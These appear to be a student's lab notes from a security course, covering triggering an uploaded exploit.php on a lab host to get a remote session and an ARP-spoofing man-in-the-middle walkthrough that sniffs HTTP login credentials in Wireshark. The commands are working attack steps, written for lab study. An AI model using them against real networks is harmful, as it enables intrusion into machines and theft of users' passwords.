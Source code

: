 run exploit in background: $ run -j

now curl exploit.php to execute (in separate terminal): curl http://10.0.2.4/dav/exploit.php

it will show in main terminal, that session 1 has started

to interact with session: $ sessions 1 (on main terminal)
now run whoami to check user info


assignment: other than these 2, we need to find and show exploits

31/08/21
--------
MITM using ARP Spoofing (NPTEL lec25)
------------------------
Victim machine: windows (V)
Attacker: kali (A)

change default IP and gateway in V.

allow port forwarding in A.
cat /proc/sys/net/ipv4/ip_forward --> 0

echo 1 > /proc/sys/net/ipv4/ip_forward
(if above doesnt work use: sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')

cat /proc/sys/net/ipv4/ip_forward --> 1 (now it is enabled)

NOTE: find ip of windows machine and default gateway using command: ipconfig

arpspoof -t <gateway of V> <ip of V>
this means we are attacking traffic from gateway to machine

in new terminal: arpspoof -t <ip of V> <gateway of V>
now we are also spoofing pkts from machine to gateway

now we need to sniff pkts: open wireshark
select interface eth0

in victim machine open browser and go to aview.in
put login credentials eg: user: admin, password: abcd

in wireshark filter http by putting: http in filter bar
find the datapacket sent to aview.in or something like POST /login.php
right click and select 'Follow' -> 'TCP Stream'

you will see the username and password there


NMap
----
refer to Nmap.pdf

nmap help: sudo nmap -h

Wireshark
---------
These are the some links which will bw useful for wireshark
